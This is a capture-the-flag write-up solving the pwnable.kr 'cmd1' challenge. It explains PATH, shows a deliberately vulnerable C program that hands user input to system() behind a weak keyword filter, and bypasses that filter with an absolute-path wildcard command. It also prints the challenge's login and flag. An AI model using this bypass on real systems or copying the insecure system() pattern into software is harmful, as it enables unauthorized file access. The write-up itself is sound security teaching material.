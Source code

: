 # cmd1

## Description

cmd1 - 1pt

> Mommy! what is PATH environment in Linux? <br> <br>
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Environment variables

An environment variable is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice. They are part of the environment in which a process runs. Environment variables are a universal mechanism for conveying configuration information to Unix programs. 

#### PATH environment variable

The `PATH` environment variable is a list of directories that the shell searches for executable files. The path environment variable is used to find the executable file that is to be executed when a command is entered. 

### Exploit

When connecting to the server, we first check who are we:

```bash
$ id
uid=1025(cmd1) gid=1025(cmd1) groups=1025(cmd1)
```

Then, we check the avialable files:

```bash
$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
```

Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The program first sets the `PATH` environment variable to `/thankyouverymuch`. Then, it executes the command that is passed as an argument. However, the program checks if the command contains `flag`, `sh`, or `tmp` and if it does, it returns. This means that we cannot execute the `flag` file, the `sh` command, or the `tmp` directory.

Our goal is to print the flag. However, since the `PATH` environment variable was changed, we can't just call `cat` or `ls` to print the flag - the shell will not be able to find the executable files. However, we can still use the `cat` command by using the absolute path to the executable file. 

Now that we can use the `cat` commnad, we need to figure out how to print the flag. We can't just `bin/cat flag` because the program checks if the command contains `flag`. However, we can use the `cat` command to print *everything* inside the current directory:

```bash
$ /bin/cat *
```

Givin this command as an argument to the program will print the flag:

```bash
$ ./cmd1 "/bin/cat *"
...
mommy now I get what PATH environment is for :)
```
